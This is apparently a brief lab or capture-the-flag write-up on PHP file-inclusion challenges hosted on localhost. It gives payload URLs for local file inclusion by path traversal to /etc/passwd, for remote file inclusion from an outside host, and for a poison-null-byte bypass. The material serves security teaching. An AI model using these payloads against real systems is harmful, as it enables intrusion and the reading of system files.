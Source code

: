 # File Include

## 1

This challenge gives you a url of the form:

`http://localhost:31337/fileincl/example1.php?page=intro.php`

The input is simply `include`ed, and is vulnerable to both

### LFI

`http://localhost:31337/fileincl/example1.php?page=../../../../../../../../etc/passwd`

### RFI

`http://localhost:31337/fileincl/example1.php?page=http://jxn.io`

## 2

This challenge is the same, but instead of requesting `intro.php`, the `.php` is added serverside. The intention is that you should only be able to request a PHP file, but you can get around this like so:

`http://localhost:31337/fileincl/example1.php?page=../../../../../../../../etc/passwd%00`

This is known as the [poison null byte](http://hakipedia.com/index.php/Poison_Null_Byte)
